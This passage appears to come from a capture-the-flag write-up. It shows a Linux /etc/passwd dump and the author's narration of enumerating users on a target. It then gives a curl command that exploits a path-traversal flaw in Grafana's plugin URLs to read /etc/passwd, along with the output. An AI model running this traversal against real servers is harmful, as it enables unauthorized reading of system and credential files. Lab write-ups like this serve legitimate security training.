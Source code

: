 ```shell
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false

Read file > 
```

Done! as a first step, I wanted to see what users exist on the target machine that I should be looking towards, I saved this output to a file `passwd` and started to check targetted users, but first I wanted a more manual way to do this, which can save some time in the long run trying to save the output to a file, so I tried the following command and it worked:

```bash
└─$ curl --path-as-is http://$IP:3000/public/plugins/alertlist/../../../../../../../../etc/passwd -o passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
```
